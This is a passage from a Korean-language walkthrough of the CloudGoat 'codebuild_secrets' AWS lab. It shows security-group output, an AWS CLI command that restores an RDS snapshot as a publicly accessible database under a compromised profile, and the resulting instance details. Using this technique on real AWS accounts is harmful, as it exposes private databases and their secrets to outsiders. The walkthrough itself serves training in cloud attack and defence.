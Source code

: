 ```python
                "PrefixListIds": [],
                "ToPort": 5432,
                "UserIdGroupPairs": []
            }
        ],
        "OwnerId": "712987748923",
        "GroupId": "sg-08cf0063172ca84b3",
        "IpPermissionsEgress": [
            {
                "IpProtocol": "-1",
                "IpRanges": [
                    {
                        "CidrIp": "0.0.0.0/0"
                    }
                ],
                "Ipv6Ranges": [],
                "PrefixListIds": [],
                "UserIdGroupPairs": []
            }
        ],
        "VpcId": "vpc-0449676f4c03795ea"
    }
]
```

- Public으로 접근할 수 있도록 스냅샷에서 RDS 인스턴스를 생성하는 데 필요한 모든 정보를 수집했습니다.
- 스냅샷에서 RDS 인스턴스를 생성해 보겠습니다.

```python
db-subnet-group-name : cloud-goat-rds-subnet-group-codebuild_secrets_cgidq5cx1pvldn
vpc-security-group-name : "GroupId": "sg-08cf0063172ca84b3",

aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier secrets-instance \
    --db-snapshot-identifier secrets-snapshot \
    --db-subnet-group-name cloud-goat-rds-subnet-group-codebuild_secrets_cgidq5cx1pvldn  \
    --publicly-accessible \
    --vpc-security-group-ids sg-08cf0063172ca84b3 \
    --profile calrissian
```

- RDS 스냅 샷을 생성한후 해당 로그를 통해서 필요한 부분을 분석하도록 하겠습니다.

```python
{
    "DBInstance": {
        "DBInstanceIdentifier": "secrets-instance",
        "DBInstanceClass": "db.t2.micro",
        "Engine": "postgres",
        "DBInstanceStatus": "creating",
        "MasterUsername": "cgadmin",
        "DBName": "securedb",
        "AllocatedStorage": 20,
        "PreferredBackupWindow": "05:44-06:14",
        "BackupRetentionPeriod": 0,
        "DBSecurityGroups": [],
        "VpcSecurityGroups": [
            {
                "VpcSecurityGroupId": "sg-08cf0063172ca84b3",
                "Status": "active"
            }
        ],
        "DBParameterGroups": [
            {
                "DBParameterGroupName": "default.postgres9.6",
```